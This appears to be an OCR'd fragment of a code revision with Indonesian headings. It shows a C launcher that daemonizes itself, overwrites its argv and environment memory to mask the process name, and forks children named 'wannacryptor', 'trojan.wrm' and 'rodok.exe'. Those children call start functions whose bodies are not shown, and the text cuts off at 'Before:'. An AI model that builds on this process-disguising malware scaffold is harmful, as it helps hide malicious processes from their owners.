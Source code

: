 Berikut revisi codenya 

```
void rename_process(const char *name, char *argv[]) {
    prctl(PR_SET_NAME, name, 0, 0, 0);

    size_t total_len = 0;
    for (int i = 0; argv[i]; ++i)
        total_len += strlen(argv[i]) + 1;
    for (int i = 0; environ[i]; ++i)
        total_len += strlen(environ[i]) + 1;

    memset(argv[0], 0, total_len);
    strncpy(argv[0], name, total_len - 1);
    argv[1] = NULL;
}

int main(int argc, char *argv[]) {
    srand(time(NULL));
    time_t t = time(NULL);
    asprintf(&timestamp_key, "%ld", t);

    daemonize(argv);

    pid_t pid1 = fork();
    if (pid1 == 0) {
        rename_process("wannacryptor", argv);
        start_wannacryptor();
        exit(0);
    }

    pid_t pid2 = fork();
    if (pid2 == 0) {
        rename_process("trojan.wrm", argv);
        start_trojan();
        exit(0);
    }

    pid_t pid3 = fork();
    if (pid3 == 0) {
        rename_process("rodok.exe", argv);
        start_rodok(argc, argv);
        exit(0);
    }

    while (1) pause();
    return 0;
}
```

##### Hasil Revisi
Before:
